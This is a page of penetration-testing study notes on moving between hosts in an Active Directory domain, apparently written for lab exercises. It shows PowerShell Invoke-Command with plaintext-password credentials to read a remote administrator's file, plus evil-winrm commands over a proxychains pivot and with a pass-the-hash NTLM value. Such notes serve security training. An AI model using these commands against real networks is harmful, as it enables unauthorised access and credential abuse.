

repository: amandaguglieri/hackinglife · page: active-directory-connections/index.html · generator: mkdocs

---
title: "AD: Connecting to other hosts"
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - active
  - directory
  - linux
  - windows
---
# AD: Connecting to other hosts

!!! quotes "Resources"
	- [TheHacker.recipes](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword#forcechangepassword

[Index of Active Directory](active-directory.md)

[Hardening and auditing Active Directory ](hardening-auditing-active-directory.md)

!!! tip "Attacking from linux"
	- [Enumerating Active Directory from Linux](active-directory-from-linux-enumeration.md)
	- [Attacking Active Directory from Linux](active-directory-from-linux-attacks.md)
	- [Lateral Movement in Active Directory from Linux](active-directory-from-linux-lateral-movement.md)
	- [Privileges escalation in Active Directory from Linux](active-directory-from-linux-privilege-escalation.md)

!!! tip "Attacking from Windows"
	- [Enumerate with ldap](ldap.md)
	- [Enumerating Active Directory from Windows](active-directory-from-windows-enumeration.md)
	- [Active directory: connecting to other hosts](active-directory-connections.md)
	- [Attacking Active Directory from Windows](active-directory-from-windows-attacks.md)
	- [Privileges escalation in Active Directory from Windows](active-directory-from-windows-privilege-escalation.md)

!!! tip "Linux in AD"
	- [Linux in active directory](linux-in-active-directory.md)



## Invoke-Command

Invoke-Command allows the executions of commands in remote hosts. We can use a "nested" Invoke-Command to send credentials (after creating a PSCredential object) with every request. 


```powershell
# 1. Now we will create a Secure-string object with the credential of the user svc_sql. Then we will use Invoke-Command to run a command in the host MS01
# 1. We create a SecureString Object with our creds
$SecPassword = ConvertTo-SecureString '$password' -AsPlainText -Force
# Example: 
# $SecPassword = ConvertTo-SecureString '!qazXSW@' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('$domain\$userSamAccountName', $SecPassword)
# Example:
# $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\backupadm', $SecPassword)

# 2. We send the nested Invoke-Command
Invoke-Command -ComputerName "$hostname.$domainName" -Credential $cred -ScriptBlock { Get-Content "C:\Users\Administrator\Desktop\flag.txt" }
# Example: 
# Invoke-Command -ComputerName "MS01.INLANEFREIGHT.LOCAL" -Credential $cred -ScriptBlock { Get-Content "C:\Users\Administrator\Desktop\flag.txt" }
``` 


## Enter-PSSession


## Evil-Winrm

With a pivot host and chisel + proxychains

```powershell
proxychains evil-winrm -i $ip -u $user -p $password
```

With hashes:

```bash
evil-winrm -i $ip -u Administrator -H "32693b11e6aa90eb43d32c72a07ceea6"
```
